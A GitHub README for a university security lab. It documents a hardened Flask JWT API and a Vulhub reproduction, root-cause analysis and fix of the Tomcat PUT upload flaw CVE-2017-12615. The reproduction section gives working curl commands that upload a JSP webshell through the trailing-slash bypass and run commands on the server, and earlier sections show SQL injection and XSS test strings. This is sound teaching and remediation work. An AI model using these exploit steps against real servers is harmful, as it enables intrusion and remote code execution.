










# Secure REST API — Flask + JWT + CI/CD


A small REST API built for the HDU Information Security labwork. It demonstrates how SQL injection, XSS and broken authentication are prevented in practice, how a real CVE
(CVE-2017-12615) is reproduced with Vulhub and then fixed, and how static and dependency scans are wired into a CI/CD pipeline that runs on every push.

The purpose of the work is to make each security control **visible and verifiable**: every claim below is backed by a command that was run and a screenshot in [`docs/`](docs/).

---

## 1. Project overview

| Layer                | Choice                                   |
| -------------------- | ---------------------------------------- |
| Language / framework | Python 3.11, Flask 3.1                   |
| Storage              | SQLite via the standard `sqlite3` module |
| Password hashing     | `bcrypt` 5.0 (`$2b$`, cost 12)           |
| Tokens               | `PyJWT` 2.15, HS256, 15-minute lifetime  |
| CI/CD                | GitHub Actions (bandit + pip-audit)      |

```
secure-api/
├── app.py                      # routes, JWT middleware, output encoding
├── db.py                       # schema + idempotent seed
├── requirements.txt            # pinned dependencies, used by CI
├── docs/                       # screenshots referenced in this README
└── .github/workflows/ci.yml    # SAST + SCA on every push and pull request
```

---

## 2. API

| Method | Path          | Auth     | Description                                   |
| ------ | ------------- | -------- | --------------------------------------------- |
| GET    | `/health`     | no       | liveness probe                                |
| POST   | `/auth/login` | no       | validates credentials, returns a JWT (15 min) |
| GET    | `/api/data`   | `Bearer` | returns all posts, newest first               |
| POST   | `/api/posts`  | `Bearer` | creates a post owned by the token subject     |

### Login

```bash
curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"Password123!"}'
# -> {"token":"eyJhbGciOiJIUzI1NiIs..."}
```

### Authenticated read

```bash
curl -s -H "Authorization: Bearer $TOKEN" http://127.0.0.1:5000/api/data
```

### Authenticated write

```bash
curl -s -X POST http://127.0.0.1:5000/api/posts \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"title":"Hello","body":"first post"}'
# -> 201 {"id":5,"title":"Hello","body":"first post"}
```

> **Windows note.** Windows's PowerShell strips the inner double quotes of an inline JSON body, so the request arrives malformed. The examples above use `bash`; under PowerShell the same call is made with a body file — `-d "@body.json"` — plus a space-free header (`-H Content-Type:application/json`). This is a shell quoting quirk, not an API one.

---

## 3. Security measures

### 3.1 SQL injection — parameterised queries only

**Threat.** String-concatenated SQL turns user input into statement syntax, so a value
such as `x', 'y'); DROP TABLE posts;--` becomes executable code.

**Approach.** Every statement uses `?` placeholders and passes values as a tuple. The
driver sends the statement and the values on separate paths, so the input can only ever be a *value*.

```python
# db.py
conn.execute(
    "INSERT INTO users (username, password_hash) VALUES (?, ?)",
    (username, pw_hash),
)

# app.py
row = conn.execute(
    "SELECT id, username, password_hash FROM users WHERE username = ?",
    (username,),
).fetchone()
```

**Evidence.** A post titled `x', 'y'); DROP TABLE posts;--` returns `201`, and the table
survives with four rows; the payload is stored verbatim as text:

```
posts count: 4
  id=4  title=x&#x27;,&#x27;y&#x27;); DROP TABLE posts;--
  id=3  title=<script>alert(1)</script>
  id=2  title=Second
  id=1  title=Welcome
```

A `DROP TABLE` that changes nothing is the clearest possible demonstration that the
statement was never parsed as SQL.

### 3.2 XSS — output encoding

**Threat.** If a client renders a stored value as HTML, an attacker can store a script and
have it execute in another user's browser (stored XSS).

**Approach.** Every string leaving the API passes through one helper:

```python
def esc(value):
    return html.escape(value or "", quote=True)
```

It is applied to `title`, `body` and `author` in `/api/data`, and to the values echoed back by `/api/posts`. `quote=True` also encodes `"` and `'`, which matters when a value ends up inside an HTML attribute.

**Evidence.** Submitting `<script>alert(1)</script>` stores the characters but returns them as `&lt;script&gt;alert(1)&lt;/script&gt;`; a browser renders text, not a script.

**Nuance.** A JSON response is not executed by browsers, so this is defence in depth rather than the primary control: the primary control is contextual encoding at the render point, supported by a restrictive `Content-Security-Policy`. Server-side encoding still matters, because it protects naive clients that interpolate API values into HTML.

### 3.3 Authentication and authorisation

**Passwords.** Never stored in plaintext. `bcrypt.hashpw(password, bcrypt.gensalt())`
produces a `$2b$12$…` digest with a per-password random salt, and `bcrypt.checkpw` compares in constant time relative to the secret. Two users with the same password therefore have different hashes, and a leaked database cannot be turned into a rainbow-table lookup.

**Tokens.** A successful login signs a JWT:

```python
payload = {
    "sub": str(row["id"]),
    "username": row["username"],
    "iat": datetime.now(timezone.utc),
    "exp": datetime.now(timezone.utc) + timedelta(minutes=15),
}
```

**Middleware.** `@require_auth` parses `Authorization: Bearer <token>` and decodes it before any handler runs. Three details are deliberate:

1. **Algorithm whitelist.** `jwt.decode(token, JWT_SECRET, algorithms=[JWT_ALG])` states which algorithm is acceptable, instead of trusting the `alg` field inside the token.
   Without the whitelist, an attacker can present `alg: none`, or switch an RS256 token to HS256 signed with the public key (algorithm confusion).
2. **Expiry and tampering are handled separately.** `ExpiredSignatureError` and
   `InvalidTokenError` both return `401`, but they are distinguishable in logs: one is an expired session, the other may be a forged token.
3. **Identity comes from the token only.** `POST /api/posts` takes `user_id` from
   `g.user["sub"]`, never from the request body. Accepting a client-supplied `user_id` would let any authenticated user post as somebody else (IDOR / broken access control).

**Username enumeration.** An unknown username and a wrong password return the same`{"error": "invalid credentials"}` with the same status, so responses cannot be used to discover which accounts exist.

**Secret management.** `JWT_SECRET` is read from the environment. The `dev-only-secret` fallback exists purely so the project runs locally without configuration; in any deployed environment the secret must be injected, because a published signing key makes every token forgeable.

**Deliberately out of scope.** No rate limiting on `/auth/login`, no refresh tokens, no
token revocation list, and the dev server speaks plain HTTP. Each of these matters in
production and is listed here rather than silently ignored.

---

## 4. CVE-2017-12615 — arbitrary file write via PUT

|           |                                                       |
| --------- | ----------------------------------------------------- |
| Component | Apache Tomcat 8.5.19 (`vulhub/tomcat:8.5.19`)         |
| Class     | Improper input validation / unrestricted file upload  |
| Impact    | Remote code execution inside the container, as `root` |

Tomcat's `DefaultServlet` serves static files and, when its `readonly` initialisation
parameter is set to `false`, also accepts `PUT` requests that write files into the web
application directory. The servlet tries to prevent code execution by rejecting names that end in `.jsp`, but the check inspects the **requested name** while the write uses the
**filesystem's interpretation** of the same path. A trailing slash — `PUT /1.jsp/` — is
seen by the check as a directory-like name without a `.jsp` suffix, while the write lands
on `1.jsp`. The uploaded JSP is then compiled and executed by the container, which gives command execution.

The environment is started with `docker compose build && docker compose up -d` from the Vulhub directory; the base image ships with the dangerous parameter already inserted into `conf/web.xml`.

---

## 5. Reproduction

**Step 1 — vulnerable service running.** `docker compose up -d`, then the default Tomcat page at `http://localhost:8080`.



**Step 2 — upload a JSP webshell.** A minimal JSP that executes the `cmd` request
parameter and prints the output is written to `shell.jsp`, then pushed with `PUT`:

```bash
curl -v -X PUT "http://localhost:8080/1.jsp/" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "@shell.jsp"
```

`HTTP/1.1 201 Created` confirms that the file was accepted and written.



**Step 3 — command execution.** Requesting the uploaded file runs it:

```bash
curl -s -o - "http://localhost:8080/1.jsp?cmd=id"
# <pre>uid=0(root) gid=0(root) groups=0(root)
```



**Step 4 — file system access.** The same handle lists arbitrary paths, so the compromise is not limited to one command:

```bash
curl -s -o - "http://localhost:8080/1.jsp?cmd=ls%20-la%20/"
```



---

## 6. Root cause analysis

The vulnerability is best explained in three layers, because each layer suggests a
different class of fix.

**Layer 1 — configuration.** The `readonly=false` parameter is not a Tomcat default; it was added explicitly. The Vulhub image injects it into `conf/web.xml` at build time:

```dockerfile
RUN cd /usr/local/tomcat/conf \
    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | awk '{print $1}') \
    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
    && sed -i "$LINE i $ADDON" web.xml
```

In other words the write capability was granted on purpose. A stock Tomcat answers the same`PUT` with `403`.

**Layer 2 — insufficient validation.** Blocking `.jsp` by suffix is a blacklist over a
string, not over the object that will actually be written. `1.jsp/` and `1.jsp` denote the
same file to the file system but not to the string check, so the guard and the write
disagree about what is being created. This is the same failure family as path traversal:
**normalisation performed twice, by two components, with different rules.**

**Layer 3 — blast radius.** The container ran the servlet as `root`, so code execution was
root-level inside the container. With a shared kernel and a mounted volume this is one step away from host compromise; without one it still means full control of the application and its data.

The combination explains why the CVSS score is high while the precondition is a
configuration choice: severity measures the consequence (file write → RCE), not the
likelihood of a stock installation being exposed.

---

## 7. Fix

**Applied fix — remove the capability.** The `RUN` block above was deleted from the
`Dockerfile`, so `conf/web.xml` keeps Tomcat's default `readonly=true`, and the image was rebuilt:

```bash
docker compose down
docker compose build --no-cache
docker compose up -d --force-recreate
```

**Why this is effective.** The rejection now happens in the server's request handling before any file is created: `DefaultServlet` refuses `PUT` outright. The fix removes the primitive the exploit needs rather than filtering the payload that abuses it, so it does not depend on guessing which encodings an attacker will try.

**Defence in depth (recommended, not applied here).** Upgrade to a release after 8.5.31, where the path handling that allows the trailing-slash bypass was tightened (the related Windows-only variant is CVE-2017-12617). Upgrading alone would not have fixed this environment, because the vulnerable parameter would still have been set — the configurationis the precondition, so the configuration is the fix. Additional hardening: run the container as a non-root user, mount the web application directory read-only, and place a WAF rule in front of `PUT` to `/` paths.

---

## 8. Verification of the fix

| Check                     | Command                                                                      | Result                                           |
| ------------------------- | ---------------------------------------------------------------------------- | ------------------------------------------------ |
| Configuration restored    | `docker compose exec tomcat grep -n readonly /usr/local/tomcat/conf/web.xml` | only an XML comment remains, no active parameter |
| Same attack, same payload | identical `PUT /1.jsp/` request                                              | **403 Forbidden**                                |
| Backdoor removed          | `curl -o /dev/null -w "%{http_code}" http://localhost:8080/1.jsp`            | **404**                                          |
| Regression                | open `http://localhost:8080`                                                 | default page renders normally                    |







The regression check matters as much as the 403: a service that has been broken into
returning errors is not a fixed service.

---

## 9. CI/CD

`.github/workflows/ci.yml` runs on every push to `main` and on every pull request:

| Step | Tool                            | Purpose                                                                                 |
| ---- | ------------------------------- | --------------------------------------------------------------------------------------- |
| SAST | `bandit -r . -ll`               | flags dangerous constructs in the source (debug mode, `eval`, weak crypto, shell calls) |
| SCA  | `pip-audit -r requirements.txt` | matches pinned dependency versions against published advisories                         |

Both scanners run against the same pinned `requirements.txt` that a developer installs locally, so a green pipeline means the committed state was scanned, not a different one.

**Tool choice.** The lab manual suggests OWASP Dependency-Check or Snyk for SCA. `pip-audit` was used instead: it reads the same OSV/PyPA advisory data, runs without an account or a Java runtime, and keeps the job under a minute. `safety` was the other Python option in the manual, but its CLI now requires registration before it will run in a pipeline.

Current state — SAST found no issues (155 lines of code scanned, zero findings at any
severity), and SCA found no known vulnerabilities in the pinned dependencies:





Pipeline history: <https://github.com/lynetteccccc/secure-api/actions>

---

## 10. Run locally

```bash
python -m venv .venv
. .venv/bin/activate        # Windows: .venv\Scripts\Activate.ps1
pip install -r requirements.txt
python db.py                # creates app.db and seeds a demo user
python app.py               # serves on http://127.0.0.1:5000
```

Demo credentials: `alice` / `Password123!` (development only — the seed is dempotent, so re-running `db.py` will not duplicate the user).

Health check: `curl http://127.0.0.1:5000/health` → `{"status":"ok"}`


